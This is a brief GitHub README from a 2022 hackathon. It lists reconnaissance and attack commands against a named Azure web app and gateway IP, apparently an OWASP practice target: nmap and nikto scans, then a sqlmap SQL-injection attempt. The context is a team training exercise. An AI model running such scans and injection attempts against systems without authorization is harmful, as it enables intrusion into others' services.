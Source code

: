 # WebSite Attack by AndreMurrel
Web site attack created by Andre Murrel for FTA hackaton Februare 2022

This is instructions on how to execute a website attack. It was created by Andre Murrel for a hackaton played by Rudnei, Andre, Simona, Ricardo, Andrej and Andrew.

## Information utilized

- Web app: https://owaspdirect-prunoavl6xr2y.azurewebsites.net 
- App GW: 52.249.241.69

## Enumeration and Discovery

  Nmap -v -O -Pn 52.249.241.69 --traceroute 
  #silent scan of IP and 1000 ports if ICMP is blocked 

  nikto -h 52.249.241.69 
  //nikto -h https://owaspdirect-prunoavl6xr2y.azurewebsites.net 
  //nikto -h https://owaspdirecprunoavl6xr2y.azurewebsites.net –ssl

## ATTACK Attempt at SQL Injection (this throws the kitchen sink at the Website) 

  sqlmap -u "https://owaspdirect-prunoavl6xr2y.azurewebsites.net" --data="id=1&str=val" -b 

